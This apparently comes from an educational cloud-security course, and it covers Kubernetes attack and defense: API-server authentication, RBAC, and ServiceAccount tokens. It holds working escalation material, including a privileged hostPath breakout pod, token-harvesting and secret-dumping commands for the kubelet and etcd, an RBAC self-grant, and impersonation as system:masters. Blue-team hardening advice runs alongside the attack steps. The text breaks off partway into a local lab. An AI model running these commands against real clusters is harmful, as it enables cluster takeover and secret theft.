





**Level:** Advanced · **Track:** Cloud Security · **Read time:** 340 min

This is Chapter 7 of the Cloud Security notebook. The previous chapter took apart a single container — namespaces, cgroups, capabilities, the Docker socket, and the breakout primitives that turn one container into control of its host. This chapter zooms out to the system that runs thousands of those containers in production: **Kubernetes**. If a container is a lied-to Linux process, a Kubernetes cluster is the machine that decides which lies get told, on which node, with which identity, and with access to which secrets — and almost every one of those decisions is a place an attacker can subvert.

The single idea to carry through the whole chapter: **in Kubernetes, everything is an object in the API server, and every action is an authenticated, authorized request to that one endpoint.** Get a token that the API server trusts, and the entire cluster is a REST API away. That is why Kubernetes attacks are rarely about memory-corruption exploits and almost always about *identity and authorization*: a ServiceAccount token left in a pod, an RBAC Role that is one verb too generous, a kubelet that answers unauthenticated requests, a Secret sitting base64-encoded in etcd. Understand how the pieces authenticate and authorize each other, and both the offensive path (token theft → RBAC abuse → pod escape → node → cluster-admin) and the defensive path (least-privilege RBAC, admission control, audit logging) stop being magic.

Everything here is for clusters you own or are explicitly authorised in writing to assess. Enumerating or exploiting a Kubernetes API server, kubelet, or etcd you do not control is unauthorised access and a crime in essentially every jurisdiction. Build the local `kind` cluster described in Part 11 on your own machine, or practise on the deliberately-vulnerable ranges named in the final part.

---

## Why Kubernetes Security Is Its Own Discipline

By the time an organisation runs Kubernetes, it has usually consolidated dozens of services, hundreds of secrets, and its entire deployment pipeline onto one control plane. That concentration is exactly why the cluster is such a high-value target: **compromising the API server with cluster-admin is frequently equivalent to compromising every application and every secret the organisation runs.** A single over-permissioned ServiceAccount can be worth more than a domain-admin account in a classic Active Directory network.

Kubernetes also fails *quietly*. A misconfigured RBAC binding does not throw an error — it simply grants access that nobody notices until it is abused. An anonymous-auth API server does not warn you — it just answers. A pod with `hostPath: /` mounted does not look different in a dashboard from a hardened one. Because the failure modes are configuration, not code, they survive patching, they survive vulnerability scanners that only look at CVEs, and they accumulate as clusters grow. That is why Kubernetes attack-and-defense is a distinct skill from container security or cloud IAM, and why it gets its own chapter.

**Who this is for:** pentesters and red teamers who land a shell in a container and need to know what to do next; bug-bounty hunters who find an exposed `10250` or `/version` endpoint; and blue-teamers and platform engineers who own a cluster and need to know what "secure" actually means in RBAC, admission, and audit terms.

---

## Part 1: What Kubernetes Actually Is — Control Plane vs Data Plane

Before attacking anything, you need an accurate mental model. A Kubernetes cluster is a set of machines (**nodes**) split into two roles.

The **control plane** is the brain. It decides *what should be running*. Its components are:

- **kube-apiserver** — the front door. Every read and every write in the cluster goes through it as an authenticated, authorized, admission-controlled REST call. It is stateless itself; it persists everything to etcd. **This is the single most important attack target in the entire cluster.**
- **etcd** — a distributed key-value store that holds the *entire* cluster state: every object, every ConfigMap, and every **Secret** (by default only base64-encoded, not encrypted). Read access to etcd equals read access to every secret in the cluster.
- **kube-scheduler** — decides which node an unscheduled pod runs on.
- **kube-controller-manager** — runs the control loops that drive actual state toward desired state (replica counts, node health, ServiceAccount token creation, etc.).
- **cloud-controller-manager** — integrates with the cloud provider (load balancers, node lifecycle, volumes).

The **data plane** (worker nodes) is where containers actually run. On every node:

- **kubelet** — the node agent. It talks to the API server, pulls pod specs, and drives the container runtime to start/stop containers. It exposes an HTTPS API (port **10250**) that can run commands inside pods (`/exec`, `/run`), stream logs, and list pods. If that API is reachable and does not require authentication/authorization, it is a direct path to code execution in every pod on the node.
- **kube-proxy** — programs iptables/IPVS rules so Service virtual IPs route to pod IPs.
- **container runtime** — containerd or CRI-O (Docker's dockershim was removed in v1.24), spoken to via the **CRI** (Container Runtime Interface).

Two more plugin interfaces matter for attackers: the **CNI** (Container Network Interface) implements pod networking and NetworkPolicy (Calico, Cilium, Flannel), and the **CSI** (Container Storage Interface) implements persistent volumes.



**Attacker's takeaway from this map:** there are exactly four network doors worth memorising — the **API server (6443)**, **etcd (2379/2380)**, the **kubelet (10250, and the deprecated read-only 10255)**, and the cloud **metadata endpoint (169.254.169.254)** reachable from inside pods. Nearly every real Kubernetes compromise starts at one of those four.

| Component | Default port(s) | What it exposes if unauthenticated | Attacker value |
|-----------|-----------------|-----------------------------------|----------------|
| kube-apiserver | 6443 (443 on managed) | Full cluster API subject to RBAC | Total control if a trusted token is obtained |
| kubelet | 10250 (RW), 10255 (RO, deprecated) | Exec/run in pods, pod list, node metrics | RCE in every pod on the node |
| etcd | 2379 (client), 2380 (peer) | Entire cluster state incl. Secrets | All secrets, cluster-wide |
| kube-scheduler / controller-manager | 10259 / 10257 | Health/metrics (usually localhost) | Low, but leaks config |
| cloud metadata | 169.254.169.254 | Node IAM credentials (IMDS) | Cloud account pivot |

---

## Part 2: How Requests Are Authenticated and Authorized

Every request to the API server passes through three gates, in order: **Authentication → Authorization → Admission**. Understanding this pipeline is the difference between guessing and knowing where a cluster can be broken.



**Authentication** establishes *who* you are. Kubernetes has no user database; it trusts external proofs:

- **Client certificates** — a cert signed by the cluster CA. The `CN` becomes the username, the `O` fields become groups. This is how `kubectl` admin access usually works. A cert with `O=system:masters` is unconditional cluster-admin — RBAC does not even apply to that group.
- **ServiceAccount tokens** — JWTs mounted into pods. This is the credential attackers steal most often. Legacy tokens (pre-1.24) were long-lived Secrets; modern **bound tokens** are short-lived, audience-scoped JWTs projected via the TokenRequest API.
- **OIDC tokens** — from an external identity provider (used by most managed clusters: EKS uses IAM, GKE uses Google identity, AKS uses Entra ID).
- **Static token / basic-auth files** — legacy, insecure, thankfully rare now.
- **Anonymous** — if `--anonymous-auth=true` (historically the default on the raw API server), unauthenticated requests are given the username `system:anonymous` in group `system:unauthenticated`. This is only safe because RBAC should grant that identity nothing. Misconfigure the RBAC and anonymous becomes powerful.

**Authorization** decides *what* you can do, almost always via **RBAC** (Role-Based Access Control). We dedicate Part 4 to it. Other authorizers exist (ABAC, the Node authorizer for kubelets, Webhook) but RBAC is the one you attack and defend.

**Admission control** runs *after* auth but *before* persistence, and can mutate or reject objects. This is where Pod Security Admission, resource quotas, and policy engines like OPA/Gatekeeper and Kyverno enforce rules such as "no privileged pods" — and therefore where defenders stop many of the attacks in this chapter.

A crucial attacker insight: **admission runs last.** If you are authorized to create a privileged pod and no admission controller blocks it, you win — RBAC said yes and nothing downstream said no.

---

## Part 3: The kubectl Tool from Scratch

Every interaction in this chapter uses `kubectl`, the official CLI. Teach it once, use it everywhere.

**What it is:** a Go binary that reads a **kubeconfig** file, turns your subcommands into REST calls against the API server, and prints the responses. It is a thin, honest client — anything `kubectl` can do, a raw `curl` with the same token can do too, which matters when you only have `curl` inside a compromised pod.

**Install (Kali/Debian):**

```bash
# Fetch the matching stable client
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
sudo install -o root -g root -m 0755 kubectl /usr/local/bin/kubectl
kubectl version --client        # confirm it runs
```

**The kubeconfig** is the credential file, by default `~/.kube/config`. It has three sections: `clusters` (API server URL + CA), `users` (certs or tokens), and `contexts` (a cluster+user+namespace triple). The `current-context` selects which one is active.

```bash
kubectl config view                 # show merged config (redacts secrets by default)
kubectl config view --raw           # show it WITH the secrets/tokens — attacker gold
kubectl config get-contexts         # list all contexts you have
kubectl config use-context prod     # switch clusters
```

**Core verbs you will use constantly:**

| Command | What it does | Key flags |
|---------|--------------|-----------|
| `kubectl get <res>` | List objects | `-A` (all namespaces), `-o yaml/json/wide`, `-n <ns>` |
| `kubectl describe <res> <name>` | Human-readable detail incl. events | `-n` |
| `kubectl auth can-i <verb> <res>` | Ask RBAC what YOU can do | `--list`, `--as`, `-n` |
| `kubectl get secret <n> -o yaml` | Read a Secret (base64) | `-o jsonpath=...` |
| `kubectl exec -it <pod> -- sh` | Shell into a running pod | `-c <container>` |
| `kubectl run` / `apply -f` | Create pods/objects | `--image`, `--overrides` |
| `kubectl proxy` | Local authenticated proxy to the API | `--port` |

The two single most useful reconnaissance commands in the whole cluster are:

```bash
kubectl auth can-i --list                          # everything the CURRENT identity can do
kubectl auth can-i --list --as=system:anonymous    # what anonymous can do
```

`can-i --list` enumerates your effective permissions without touching a single object — it just asks the API server's authorizer. It is non-destructive, fast, and the first thing to run after obtaining any token. **Red team usage:** run it immediately on any stolen token to know your blast radius before making noise. **Blue team usage:** run it as suspicious ServiceAccounts to audit what they *could* do.

---

## Part 4: RBAC — The Model You Attack and Defend

RBAC is four object types that combine into "who can do what, where."

- **Role** — a set of *rules* (allowed verbs on resources) scoped to **one namespace**.
- **ClusterRole** — the same, but cluster-wide (or usable as a template in any namespace).
- **RoleBinding** — grants a Role (or ClusterRole) to *subjects* (users, groups, ServiceAccounts) **in one namespace**.
- **ClusterRoleBinding** — grants a ClusterRole to subjects **across the whole cluster**.

A rule is `apiGroups × resources × verbs` (optionally narrowed to named resources). Verbs are `get, list, watch, create, update, patch, delete, deletecollection`, plus special verbs `escalate`, `bind`, `impersonate`, and subresource verbs like `create` on `pods/exec`.



Here is a deliberately over-permissioned Role and a binding, so you can read RBAC fluently:

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: pod-manager
  namespace: dev
rules:
- apiGroups: [""]                 # "" is the core API group
  resources: ["pods", "pods/exec"]
  verbs: ["get", "list", "create"]
- apiGroups: [""]
  resources: ["secrets"]
  verbs: ["get", "list"]          # <-- reading every Secret in dev
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: bind-pod-manager
  namespace: dev
subjects:
- kind: ServiceAccount
  name: ci-runner
  namespace: dev
roleRef:
  kind: Role
  name: pod-manager
  apiGroup: rbac.authorization.k8s.io
```

Read that as: *the `ci-runner` ServiceAccount in `dev` may get/list/create pods, exec into pods, and read every Secret in `dev`.* That is already dangerous — Part 6 shows why "create pods + read secrets" is a privilege-escalation primitive.

### The dangerous verbs and resources

Some grants are far more powerful than they look. Memorise this table — it is the core of RBAC attack analysis.

| Grant | Why it's dangerous |
|-------|--------------------|
| `create` on `pods` | Schedule an attacker-controlled pod — mount host paths, use another SA, run privileged |
| `create` on `pods/exec` | Run commands in existing pods (equivalent to shell on those workloads) |
| `get`/`list` on `secrets` | Read tokens, TLS keys, DB creds — often the whole point |
| `escalate` on `roles`/`clusterroles` | Grant yourself permissions you don't have (bypasses the escalation guard) |
| `bind` on `roles`/`clusterroles` | Create a binding to a more powerful role |
| `impersonate` on `users`/`groups`/`serviceaccounts` | Act as any identity, including cluster-admin |
| `create` on `serviceaccounts/token` | Mint a token for any SA you can name |
| `*` verb on `*` resource | cluster-admin in all but name |
| `update`/`patch` on `nodes` or workloads controllers (`deployments`, `daemonsets`, `cronjobs`) | Deploy attacker pods indirectly |

Kubernetes has a built-in guard called the **privilege-escalation prevention**: you normally cannot create or update a Role that has permissions you do not already hold. The special verbs `escalate` and `bind` are exactly the loopholes that disable that guard — which is why granting them is almost always a mistake.

**Blue team usage:** audit for these verbs directly. `kubectl get clusterroles -o json | jq '.items[] | select(.rules[]?.verbs[]? | test("escalate|bind|impersonate"))'` surfaces every ClusterRole that can escalate. Also flag any subject bound to the built-in `cluster-admin` ClusterRole that is not a known admin.

---

## Part 5: ServiceAccount Tokens — The Credential Attackers Steal

Every pod runs *as* a ServiceAccount. Unless you opt out, Kubernetes projects that SA's token into the pod's filesystem at a well-known path. This is the number-one credential theft in real Kubernetes compromises: pop one container, read one file, and you have an authenticated identity to the API server.

The token and its friends live here:

```
/var/run/secrets/kubernetes.io/serviceaccount/
├── token       # the JWT bearer token
├── ca.crt      # the cluster CA, so you can TLS-verify the API server
└── namespace   # the pod's namespace
```

From inside any compromised pod:

```bash
# Where is the API server? These env vars are always injected.
echo $KUBERNETES_SERVICE_HOST $KUBERNETES_SERVICE_PORT   # e.g. 10.96.0.1 443

SA=/var/run/secrets/kubernetes.io/serviceaccount
TOKEN=$(cat $SA/token)
APISERVER=https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT

# Ask the API server who this token is (SelfSubjectReview / whoami)
curl -sk --cacert $SA/ca.crt -H "Authorization: Bearer $TOKEN" \
  $APISERVER/apis/authentication.k8s.io/v1/selfsubjectreviews \
  -X POST -H 'Content-Type: application/json' \
  -d '{"apiVersion":"authentication.k8s.io/v1","kind":"SelfSubjectReview"}'
```

Sample output identifying the token's subject:

```json
{
  "status": {
    "userInfo": {
      "username": "system:serviceaccount:dev:ci-runner",
      "uid": "b1c...",
      "groups": ["system:serviceaccounts","system:serviceaccounts:dev","system:authenticated"]
    }
  }
}
```

Now enumerate what that identity can do, using the token directly with `kubectl`:

```bash
kubectl --server=$APISERVER --token=$TOKEN --certificate-authority=$SA/ca.crt \
  auth can-i --list
```

Or, if `kubectl` isn't installed in the pod (common), fall back to raw REST — the SelfSubjectRulesReview endpoint returns the same data:

```bash
curl -sk --cacert $SA/ca.crt -H "Authorization: Bearer $TOKEN" \
  -H 'Content-Type: application/json' -X POST \
  $APISERVER/apis/authorization.k8s.io/v1/selfsubjectrulesreviews \
  -d '{"kind":"SelfSubjectRulesReview","apiVersion":"authorization.k8s.io/v1","spec":{"namespace":"dev"}}'
```

**Decoding the token** tells you its scope and lifetime. A projected bound token is a JWT — split on `.` and base64url-decode the middle segment:

```bash
cut -d. -f2 <<<"$TOKEN" | base64 -d 2>/dev/null | jq .
```

```json
{
  "aud": ["https://kubernetes.default.svc"],
  "exp": 1799999999,
  "iss": "https://kubernetes.default.svc",
  "kubernetes.io": {
    "namespace": "dev",
    "pod": {"name": "web-6f8...", "uid": "..."},
    "serviceaccount": {"name": "ci-runner", "uid": "..."}
  },
  "sub": "system:serviceaccount:dev:ci-runner"
}
```

Key attacker facts about tokens:

- **`automountServiceAccountToken`** — if a pod or its SA sets this to `false`, no token is projected. Many hardened workloads do this precisely to deny attackers a credential. **Blue team usage:** set `automountServiceAccountToken: false` on every workload that never talks to the API server (most of them).
- **Bound tokens expire** (default ~1 hour, refreshed by the kubelet) and are **audience-bound** to `kubernetes.default.svc`. You cannot replay them against an arbitrary OIDC-protected service — the `aud` claim won't match.
- **Legacy Secret-based tokens** (still present on older clusters, or when you create a `kubernetes.io/service-account-token` Secret) do **not** expire and are stored in etcd. Finding one is a durable foothold.

**CTF / bug-bounty angle:** an SSRF in a cloud-hosted app is frequently the entry into a cluster: SSRF to `http://169.254.169.254/...` for node IAM creds, or SSRF that lets you reach `https://kubernetes.default.svc` with the pod's own mounted token. Kubernetes CTF rooms (see Part 13) almost always start with "you have a shell in a pod — read the token."

---

## Part 6: Privilege Escalation Paths — From Pod to Cluster-Admin

You have a token and you know what it can do. Now turn limited permissions into total control. Each path below is a real, commonly-found misconfiguration.



### 6.1 `create pods` → privileged pod → node root

If your SA can create pods, you can schedule a pod that mounts the host filesystem and gives you root on the node. This is the workhorse escalation.

```yaml
# evil-pod.yaml — schedule on a node and break out to it
apiVersion: v1
kind: Pod
metadata:
  name: pause-debug
  namespace: dev
spec:
  hostPID: true                 # share the node's PID namespace
  hostNetwork: true
  containers:
  - name: shell
    image: alpine
    command: ["/bin/sh","-c","sleep 1d"]
    securityContext:
      privileged: true          # all capabilities, device access
    volumeMounts:
    - name: host
      mountPath: /host          # mount node root FS into the pod
  volumes:
  - name: host
    hostPath:
      path: /                   # the entire node filesystem
```

```bash
kubectl apply -f evil-pod.yaml
kubectl exec -it pause-debug -n dev -- chroot /host bash   # you are now root on the node
```

Once you are root on a node you can: read `/etc/kubernetes/admin.conf` (on a control-plane node this is cluster-admin), read every other pod's projected token under `/var/lib/kubelet/pods/*/volumes/`, dump container secrets, and (with `hostPID`) enter other processes' namespaces with `nsenter`. **This is the container-breakout material from Chapter 6 applied at cluster scale.**

**Defensive note:** this entire path is blocked by admission control that forbids `privileged`, `hostPID`, `hostNetwork`, and `hostPath` — which is exactly what Pod Security Admission's *baseline*/*restricted* levels do (Part 9).

### 6.2 `list secrets` → steal a more powerful token

If you can list Secrets, you can read every `kubernetes.io/service-account-token` Secret (on clusters that still create them) and every application secret:

```bash
# Enumerate all secrets, find token-type ones, decode them
kubectl get secrets -A -o json | jq -r '
  .items[] | select(.type=="kubernetes.io/service-account-token") |
  "\(.metadata.namespace)/\(.metadata.annotations["kubernetes.io/service-account.name"]): " +
  (.data.token | @base64d)'
```

Now test each recovered token with `kubectl auth can-i --list --token=<t>` until you find one bound to `cluster-admin` — SA tokens for controllers, dashboards, or CI systems frequently are.

### 6.3 `escalate` or `bind` → grant yourself anything

If your SA can create/patch RBAC objects *and* holds `escalate`/`bind`, the escalation guard is off:

```yaml
# Bind yourself (or your SA) to the built-in cluster-admin
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: totally-normal
subjects:
- kind: ServiceAccount
  name: ci-runner
  namespace: dev
roleRef:
  kind: ClusterRole
  name: cluster-admin
  apiGroup: rbac.authorization.k8s.io
```

```bash
kubectl apply -f pwn-binding.yaml   # succeeds only if you hold bind/escalate
```

### 6.4 `impersonate` → become cluster-admin for one command

Impersonation needs no new object at all — every request just carries an "act as" header:

```bash
kubectl get secrets -A --as=system:admin           # act as a user
kubectl get pods -A --as=system:serviceaccount:kube-system:clusterrole-aggregation-controller
kubectl auth can-i '*' '*' --as-group=system:masters   # the masters group bypasses RBAC entirely
```

If your SA holds `impersonate` on users/groups, `--as-group=system:masters` is instant cluster-admin because RBAC does not apply to `system:masters`.

### 6.5 `pods/exec` into a privileged pod

If you cannot create pods but can `exec`, find an *existing* privileged pod (a CNI agent, a node-exporter, a logging DaemonSet often run privileged with host mounts) and exec into it:

```bash
kubectl get pods -A -o json | jq -r '
  .items[] | select(.spec.containers[].securityContext.privileged==true) |
  "\(.metadata.namespace)/\(.metadata.name)"'
kubectl exec -it -n kube-system <privileged-pod> -- chroot /host bash
```

| Escalation primitive | Requires | Ends in |
|----------------------|----------|---------|
| Privileged/hostPath pod | `create pods` (+ no PSA) | Node root → control plane |
| Token theft | `get/list secrets` | Reuse of a stronger identity |
| RBAC self-grant | `escalate`/`bind` on roles | cluster-admin |
| Impersonation | `impersonate` | cluster-admin (via system:masters) |
| Exec into priv pod | `pods/exec` | Node root |
| Workload controller abuse | `create/patch deployments, daemonsets, cronjobs` | Attacker pods on many nodes |

---

## Part 7: Attacking the kubelet and etcd Directly

Not every attack goes through a stolen SA token. Two network services are worth probing directly when you have network reach (from a compromised pod, an adjacent host, or occasionally the internet).

### 7.1 The kubelet API (10250 / 10255)

The kubelet exposes an HTTPS API on **10250**. Historically many clusters also ran an *unauthenticated read-only* HTTP API on **10255**. If the kubelet is configured with `--anonymous-auth=true` and no authorization webhook (older/DIY clusters), 10250 answers unauthenticated requests — and it can run commands in pods.

```bash
# List pods the node is running (read-only, no auth needed on 10255 if enabled)
curl -sk https://NODE_IP:10250/pods | jq '.items[].metadata.name'
curl -s  http://NODE_IP:10255/pods    | jq '.items[].metadata.name'   # deprecated RO port

# Run a command inside a pod via the kubelet /run endpoint
curl -sk https://NODE_IP:10250/run/<namespace>/<pod>/<container> \
  -d "cmd=id; cat /var/run/secrets/kubernetes.io/serviceaccount/token"
```

`kubeletctl` automates this. **Tool from scratch — kubeletctl:** a Go client purpose-built to enumerate and exploit kubelet APIs. Install and use:

```bash
# Install
curl -LO https://github.com/cyberark/kubeletctl/releases/latest/download/kubeletctl_linux_amd64
chmod +x kubeletctl_linux_amd64 && sudo mv kubeletctl_linux_amd64 /usr/local/bin/kubeletctl

kubeletctl pods       -s NODE_IP                  # list pods on the node
kubeletctl scan rce   -s NODE_IP                  # find pods you can exec into
kubeletctl exec "id"  -s NODE_IP -p <pod> -c <container> -n <ns>
# Harvest every mounted SA token on the node in one shot:
kubeletctl scan token -s NODE_IP
```

Harvesting tokens from every pod on a node via the kubelet, then testing each against the API server, is one of the fastest routes from "one exposed kubelet" to "cluster-admin."

**Blue team usage:** kubelets must run with `--anonymous-auth=false` and `--authorization-mode=Webhook` (the default on kubeadm/managed clusters since ~1.7). Never expose 10250/10255 beyond the control plane and monitoring. Detection: unusual source IPs hitting `/run`, `/exec`, or `/pods` on the kubelet port.

### 7.2 etcd (2379)

etcd holds everything, and Secrets are only base64-encoded at rest unless **encryption at rest** (an `EncryptionConfiguration`) is enabled. If you can reach etcd with its client certs (from a control-plane node you rooted, or an unauthenticated etcd — which does happen on DIY clusters), you can read every Secret directly:

```bash
export ETCDCTL_API=3
etcdctl --endpoints=https://127.0.0.1:2379 \
  --cacert=/etc/kubernetes/pki/etcd/ca.crt \
  --cert=/etc/kubernetes/pki/etcd/server.crt \
  --key=/etc/kubernetes/pki/etcd/server.key \
  get /registry/secrets --prefix --keys-only        # list every secret key

etcdctl ... get /registry/secrets/kube-system/bootstrap-token-abcdef | strings
```

**Blue team usage:** enable encryption at rest (`--encryption-provider-config`, ideally KMS-backed), restrict etcd to control-plane peers with mutual TLS, and never run etcd with `--client-cert-auth=false`.

---

## Part 8: Hands-On Lab — Compromise a Cluster on `kind`

This lab is fully reproducible on one laptop using **kind** (Kubernetes-in-Docker). You will stand up a cluster, plant a realistic misconfiguration, and walk the full pod → token → RBAC → node → cluster-admin chain.

### 8.1 Tools from scratch — kind, then the cluster

**kind** runs each Kubernetes node as a Docker container — perfect for a throwaway attack range.

```bash
# Install kind + kubectl (kubectl covered in Part 3)
curl -Lo ./kind https://kind.sigs.k8s.io/dl/latest/kind-linux-amd64
chmod +x kind && sudo mv kind /usr/local/bin/kind

# Create a 1 control-plane + 1 worker cluster
cat > kind.yaml <<'EOF'
kind: Cluster
apiVersion: kind.x-k8s.io/v1alpha4
nodes:
- role: control-plane
- role: worker
EOF
kind create cluster --name pwnlab --config kind.yaml
kubectl cluster-info --context kind-pwnlab
```

### 8.2 Plant the misconfiguration

Create a namespace, an over-permissioned SA/Role, and a victim pod running as that SA:

```bash
kubectl create namespace dev
kubectl -n dev create serviceaccount ci-runner

cat > rbac.yaml <<'EOF'
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata: {name: pod-manager, namespace: dev}
rules:
- apiGroups: [""]
  resources: ["pods","pods/exec","secrets"]
  verbs: ["get","list","create"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata: {name: bind-pod-manager, namespace: dev}
subjects: [{kind: ServiceAccount, name: ci-runner, namespace: dev}]
roleRef: {kind: Role, name: pod-manager, apiGroup: rbac.authorization.k8s.io}
EOF
kubectl apply -f rbac.yaml

# A victim pod running as the ci-runner SA (this is our "compromised" workload)
kubectl -n dev run web --image=nginx --overrides='{"spec":{"serviceAccountName":"ci-runner"}}'

# Plant a juicy secret in another namespace to prove impact
kubectl create namespace prod
kubectl -n prod create secret generic db-creds --from-literal=password='S3cr3t-prod-DB'
```

### 8.3 Attack from inside the pod

Simulate the shell you'd get from an RCE, and walk the chain:

```bash
kubectl -n dev exec -it web -- bash

# --- inside the pod ---
SA=/var/run/secrets/kubernetes.io/serviceaccount
TOKEN=$(cat $SA/token); API=https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT

# Who am I?
cut -d. -f2 <<<"$TOKEN" | base64 -d 2>/dev/null   # -> system:serviceaccount:dev:ci-runner

# What can I do? (raw REST, no kubectl in the container)
curl -sk --cacert $SA/ca.crt -H "Authorization: Bearer $TOKEN" -X POST \
  $API/apis/authorization.k8s.io/v1/selfsubjectrulesreviews \
  -H 'Content-Type: application/json' \
  -d '{"kind":"SelfSubjectRulesReview","apiVersion":"authorization.k8s.io/v1","spec":{"namespace":"dev"}}' \
  | jq '.status.resourceRules'
```

Expected (trimmed) output — confirms get/list/create on pods, exec, secrets in `dev`:

```json
[
  {"verbs":["get","list","create"],"apiGroups":[""],"resources":["pods","pods/exec","secrets"]}
]
```

Now escalate. The SA can `create pods`, so schedule a node-root pod (from your attacker box using the stolen token, or via raw REST from the pod):

```bash
# From attacker box, wiring kubectl to the stolen token:
kubectl config set-credentials stolen --token="$TOKEN"
kubectl config set-cluster pwnlab --server="$API" --insecure-skip-tls-verify=true
kubectl config set-context pwn --cluster=pwnlab --user=stolen --namespace=dev
kubectl config use-context pwn

kubectl apply -f evil-pod.yaml           # the hostPID/privileged/hostPath pod from Part 6.1
kubectl exec -it pause-debug -n dev -- chroot /host sh
